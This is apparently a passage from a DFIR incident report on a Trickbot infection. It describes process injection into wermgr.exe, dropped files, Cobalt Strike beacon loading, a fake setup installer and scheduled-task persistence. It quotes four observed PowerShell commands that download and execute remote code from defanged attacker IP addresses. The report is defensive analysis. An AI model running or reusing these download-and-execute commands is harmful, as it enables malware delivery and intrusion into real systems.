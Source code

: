 [![](https://thedfirreport.com/wp-content/uploads/2021/08/4778_002.png)](https://thedfirreport.com/wp-content/uploads/2021/08/4778_002.png)  
 






The injected wermgr.exe process then creates a new folder in the user’s AppData directory. As typically seen in Trickbot infections, it drops a copy of itself into this folder along with its encrypted config (settings.ini) and a batch file (launcher.bat). 






[![](https://thedfirreport.com/wp-content/uploads/2021/07/image-52.png)](https://thedfirreport.com/wp-content/uploads/2021/07/image-52.png)









   
Trickbot utilized the same instance of wermgr.exe to load Cobalt Strike beacons into memory using PowerShell, which remained active throughout the intrusion: 







```
cmd.exe /c powershell.exe -nop -w hidden -c "iex ((new-object net.webclient).downloadstring('http://23.19.227[.]147:80/atryhdthgfhfhf'))"   
cmd.exe /c powershell.exe -nop -w hidden -c "iex ((new-object net.webclient).downloadstring('http://108.62.118[.]247:80/adfsdgsdg'))"   
cmd.exe /c powershell.exe -nop -w hidden -c "iex ((new-object net.webclient).downloadstring('http://5.199.162[.]3:80/adhrdbh'))"   
cmd.exe /c powershell.exe -nop -w hidden -c "iex ((new-object net.webclient).downloadstring('http://212.114.52[.]180:80/atyukloyuiluiyluiyl'))" 
```





The fake setup installer (Setup1.exe) which was seen during the lateral movement stage, was dropped and executed on multiple systems, including the domain controllers. 


### Persistence


The launcher.bat file, which triggers the Trickbot executable, is set to start via a scheduled task: 


### 


[![](https://thedfirreport.com/wp-content/uploads/2021/07/image-64.png)](https://thedfirreport.com/wp-content/uploads/2021/07/image-64.png)
 